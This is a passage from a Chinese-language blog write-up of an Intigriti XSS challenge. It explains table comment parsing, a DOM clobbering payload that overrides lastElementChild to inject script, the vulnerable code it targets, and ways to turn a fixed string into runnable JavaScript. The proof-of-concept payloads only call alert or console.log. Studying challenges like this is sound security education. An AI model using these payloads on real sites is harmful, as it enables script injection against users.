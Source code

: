 而如果我們在 tr 裡面是有註解 `<!-- -->` 的話，也是可以帶進 tr 內的（用 td 也可以），而更驚奇的來了，intigriti 那個 table 的案例，內容不是 `<!-- !!! -->` 嗎？所以最後四個字是 ` -->`，這其實是 JS 的註解。

![](/img/intigriti-1021/p7.png)

在[七月份挑戰](https://blog.huli.tw/2021/08/06/intigriti-xss-0721/)中我們得知 `<!--` 是註解，但沒想到 `-->` 居然也是註解，真是大開眼界。

而在原文也有整理了一份清單，直接跑遍每個標籤看哪些可以放在 `<select>` 跟 `<table>` 裡面，看起來 `<script>`, `<style>` 跟 `<template>` 都可以出現在裡面而不會被移除掉。

### DOM clobbering

此解法來自 [@airispoison](https://twitter.com/airispoison/status/1455451323759988737
)，是我覺得超有創意的解法。

他的 payload 是：

``` js
?html=</div><form id=intigriti><button id=lastElementChild>/*</button>&xss=*/alert(document.domain)
```

他在 hacking 的是這一段：

``` js
c = document.getElementById("body").lastElementChild; // 會拿到 <form id=intigriti>
if (c.id === "intigriti") {
  l = c.lastElementChild; // 這邊拿到的會是 <button id=lastElementChild>，而不是真的 lastElementChild！
  i = l.innerHTML.trim();
  f = i.substr(i.length - 4);
  e = f + e;
}
```

這個解法的巧妙之處是 `lastElementChild` 原本應該是要拿到 DOM 上的 lastElementChild，結果因為被 DOM clobbering 蓋掉，所以拿到了 id 是 lastElementChild 的 button！

如此一來，innerHTML 就可控了，就可以傳入任意值組成合法 JS。談到合法 JS，我們最後來看看有哪幾種方法可以組成合法 JS。

### 組成合法 JS

假設我們有一個字串是：`)]}'`，我們可以在前面加入最多四個字元，在後面加入任意字元，那該怎樣湊出可以執行的 JS 程式碼？

我自己覺得最直覺的想法之一就是在前面加上單引號，如此一來就變一個字串，後面再加上一些東西就可以執行，像這樣：

``` js
')]}';console.log(1)
')]}',console.log(1)
')]}'+console.log(1)
```

除此之外，單行註解加上換行或是多行註解也是很直覺的想法：

``` js
//)]}'
console.log(1)

/*)]}'*/console.log(1)
```
